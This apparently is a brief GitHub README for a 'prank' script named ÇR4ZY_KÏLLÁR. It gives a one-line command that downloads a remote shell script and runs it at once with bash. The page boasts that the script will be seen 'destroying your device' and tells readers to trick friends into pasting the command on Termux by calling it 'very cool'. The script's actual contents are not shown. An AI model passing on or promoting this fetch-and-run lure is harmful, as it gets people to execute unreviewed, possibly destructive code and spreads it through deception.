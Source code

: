 # ÇR4ZY_KÏLLÁR
This is A Prank, Just Paste This command 

```bash
curl -s -o ~/CRAZY_KILLER.sh https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R/main/ÇR4ZY_KÏLLÁR_DOWNLOAD.sh && bash ~/CRAZY_KILLER.sh
```

And you will see ÇR4ZY_KÏLLÁR destroying your device😈 XD.
Share to your Friend, tell them "paste this command on termux, it's very cool" XD.


first time making this, Sorry if it's not perfect or ugly.
Run on Termux or Any Bash executor
